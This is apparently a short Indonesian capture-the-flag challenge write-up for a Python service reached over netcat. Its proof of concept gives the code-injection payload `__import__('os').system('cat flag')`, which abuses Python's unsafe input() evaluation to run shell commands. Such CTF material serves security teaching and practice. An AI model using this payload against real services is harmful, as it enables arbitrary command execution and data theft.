 ## Judul Soal
Kenalan Dulu Dong :)

## Deskripsi Soal
Input Berbahaya pada ular

nc [host]:[port]

---
## Proof of Concept
- `__import__('os').system('cat flag')`
- `Dangerous python input function`
## Flag
See the flag file

## Addtionals
- Feel free to modify this code
